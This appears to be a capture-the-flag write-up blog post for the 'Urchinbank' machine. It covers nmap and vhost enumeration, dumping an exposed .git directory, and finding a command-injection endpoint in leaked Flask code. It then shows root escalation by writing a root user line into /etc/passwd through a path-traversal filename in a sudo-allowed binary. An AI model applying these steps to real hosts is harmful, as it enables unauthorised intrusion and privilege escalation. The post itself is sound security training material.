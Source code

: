 ```yaml
---
layout: post
title: "Urchinbank"
date: 2022-03-05
categories: [ctf,machine-hard-ctf]
image: /assets/img/log2_urchinsec.png
---
```

## Urchinbank Machine Writeup 
UrchinSec CTF MMXXII was organized by <a href="https://twitter.com/urchinsec_" target="_blank" rel="noopener">urchinsec</a> under <a href="https://twitter.com/tahaafarooq" target="_blank" rel="noopener">tahaafarooq</a>,<a href="https://twitter.com/trustie_rity" target="_blank" rel="noopener">trustie_rity</a>,<a href="https://twitter.com/nicl4ssic" target="_blank" rel="noopener">nicl4ssic</a>,<a href="https://twitter.com/0xlilith666" target="_blank" rel="noopener">0xlilith666c</a>,<a href="https://twitter.com/tzanonima" target="_blank" rel="noopener">tzanonima</a>
with prices of The XSS Rat Full House Bundle Course by <a href="https://twitter.com/theXSSrat" target="_blank" rel="noopener">theXSSrat</a>
and HackTheBox VIP Month Subscription

i avoided to be an organizer so i could play on this CTF after finishing a UE 

Other writeups apart from machine

[web_writeup](https://peterchain7.github.io/urchin/) by <a href="https://twitter.com/peterChain7" target="_blank" rel="noopener">peterchain</a>

[another_writeup](https://hackmd.io/@malwarepeter/r1-7i7f-q) by <a href="https://twitter.com/MalwarePeter" target="_blank" rel="noopener">MalwarePeter</a>

Well I <a href="https://twitter.com/blackninja233" target="_blank" rel="noopener">blackninja23</a> was only one who succeful root Urchinbank Machine from  <a href="https://ctf.urchinsec.org/" target="_blank" rel="noopener">urchinsec</a>. i decided to write a writeup about this good machine

Two flags were needed, one for user and other one for root

<!-- <img src='/assets/img/log_urchinsec.png' alt='user'>

<img src='/assets/img/log2_urchinsec.png' alt='root'> -->


# Enumeration
From given desctiption, it say we shall just give you the server's IP , the domain shall be urchinbank.com
Add it to /etc/hosts
```sudo echo "207.154.231.229 urchinbank.com" >>/etc/hosts```
Starting off with a nmap scan:
```nmap -sC -sV urchinbank.com```
```
Nmap scan report for urchinbank.com (207.154.231.229)
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:7d:16:eb:9a:06:96:85:73:56:07:68:b5:50:44:50 (RSA)
|   256 50:5c:5f:76:65:20:1a:01:75:07:9a:1b:da:06:ad:d2 (ECDSA)
|_  256 54:48:5c:ed:0b:4d:d6:83:21:a4:8d:be:ed:be:ca:d8 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Urchin Bank &#8211; Just another WordPress site
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 5.9.1
|_http-favicon: Unknown favicon MD5: A346545E38D60D97ECB98DE10C3CC715
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Werkzeug httpd 2.0.3 (Python 3.8.10)
|_http-server-header: Werkzeug/2.0.3 Python/3.8.10
|_http-title: 404 Not Found
```
Discovering 4 ports at urchinbank.com which are 22,80,3306 and 8080
At first time, i decided to open port 80 after see a opensource called wordpress site from nmap result above
Opening port 80...
<img src='/assets/img/wordpress_host_discovery.png' alt='Web page discovering host'>

and we are given subdomain for this website. As seen from above
```Note : For our ibanking users , visit http://ibank.urchinbank.com/ ```
Add this to /etc/hosts.
You can performing some basics enum for wordpress but so far nothing.
Since this is wordpress,you can use wpscan and press-enum from <a href="https://twitter.com/KMchatta" target="_blank" rel="noopener">KMchatta</a> .You can read all about this tool from this link <a href="https://www.h4k-it.com/press-enum-wordpress-hacking-tool/" target="_blank" rel="noopener">press-enum</a>

# ibank enumeration
So we have ibank.urchinbank.com, opening it and having a message about Under development.
Well then bruteforce web page but so far nothing interest

# vhost enumeration
decided to bruteforce for vhost of urchinbank.com like we have ibank
Vhost in my gobuster seems react strange so i will use new feature fuzz in gobuster

<img src='/assets/img/vhost_enum_urchinbank.png' alt='gobuster vhost discovering'>
Discovering another vhost api.urchinbank.com

# api enumeration
Opening it

<img src='/assets/img/api_web_page.png' alt='api web page'>

We got a message that it is testing at port 8080.Remember that port 8080 from nmap??🤔🤔🤔

bruteforce api....

<img src='/assets/img/api_gobuster_urchinbank.png' alt='api gobuster bruteforce'>
Discovering .git directory which is used for development.From online it say that the .git folder contains all information that is necessary for the project and all information relating commits, remote repository address, etc. It also contains a log that stores the commit history. This log can help you to roll back to the desired version of the code.

Let me dump it, you can use wget or <a href="https://github.com/internetwache/GitTools" target="_blank" rel="noopener">Gittools-repo</a> but i will use Gittools-repo
```
git clone https://github.com/internetwache/GitTools #git clone Gittoolsrepo
cd GitTools 
cd Dumper
mkdir dump_git #make directory for the dump
cd dump_git
bash ../gitdumper.sh http://api.urchinbank.com/.git/ . #dump .git to dump_git directory
mkdir dump_files
bash ../../Extractor/extractor.sh ../dump_git/ ../dump_git/dump_files
```

<img src='/assets/img/extract_files_from_.git_urchinsec.png' alt='extract git files'>
From those command, you will have files and .git directory ready to be read
You can check .git by git but i will check those file that are extracted from .git using <a href="https://github.com/internetwache/GitTools" target="_blank" rel="noopener">Gittools-repo</a> 

# Source code review
From extracted, found 2 app.py which mean that it was edited interesting🙂🙂🙂
Analyze 2 of them, 
first, found that real_pin and real_acc were edited to '' from 9313 and 0112003414459
```  
def post(self):
        real_pin = '9313'  # set the pin of account here
        real_acc = '0112003414459'  # set the account to send here
```
second, found that interesting piece of code
```
class UploadFile(Resource):
    def post(self):
        try:
            parser = reqparse.RequestParser()
            parser.add_argument(
                'file', type=str, help='File Required to be downloaded')
            args = parser.parse_args()

            _fileLink = args['file']
            if _fileLink != "":
                cmd = str(_fileLink)
                msg = os.popen(f'{cmd}').read()

            return {'StatusCode': 200, 'Message': str(msg)}
```
this piece of code leading to command injection🥲🥲🥲🥲.
I can assure it was not easier to spot it at first
let me show it how i test that piece of code and see if it bring to command injection

<img src='/assets/img/proof_of_concept_urchinsec.png' alt='proof of concept'>

Getting shell then we start privesc

# Priviledge escalation
Finally we got user.txt

<img src='/assets/img/fred.rick_urchinsec.png' alt='got user'>
You can use basic knowledge or Automated tools like <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS" target="_blank" rel="noopener">linpeas-repo</a> but i will give short descripion

Enumerate network ports

<img src='/assets/img/network_urchinsec.png' alt='network privsec'>
Discovering port 8000 with localhost then we need to do ssh portfowarding with this command

```ssh -L 8000:127.0.0.1:8000 fred.rick@207.154.231.229 -i id_rsa```

Going to http://127.0.0.1:8000/ in our machine, found interesting web page in which maybe an attacker put payload inside to another user.

<img src='/assets/img/127.0.0.1:8000_urchinsec.png' alt='another user'>

You put command and execute as jamie.hyle
Getting shell then we start privesc maybe to root or user again

# Priviledge escalation
Performing sudo -l....
```
jamie.hyle@urchinbank:~$ sudo -l
Matching Defaults entries for jamie.hyle on urchinbank:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jamie.hyle may run the following commands on urchinbank:
    (ALL : NOPASSWD) NOPASSWD: /usr/bin/notepin
```
Searching it online but no luck. Well decided to do some observation to binary notepin.
let us run it first
```
jamie.hyle@urchinbank:~$ sudo /usr/bin/notepin
NOTE PIN v1.3.5
[1] Write Note
[2] Read Note
[3] Quit

>>
```
Well then we can overwrite something.then i will overwrite /etc/passwd 
Create your password 
```
openssl passwd -1 <YOURPASSWORD>
```
then edit /etc/passwd
```
jamie.hyle@urchinbank:~$ sudo /usr/bin/notepin
NOTE PIN v1.3.5
[1] Write Note
[2] Read Note
[3] Quit

>>
1

Enter File Name To Save Note To : 
../../etc/passwd

Enter Data To Write Into File : 
hacker:<YOURHASHPASSWORD>:0:0:root:/root:/bin/bash
Done
jamie.hyle@urchinbank:~$
```
login as hacker and you are root

having root.txt

Game done

































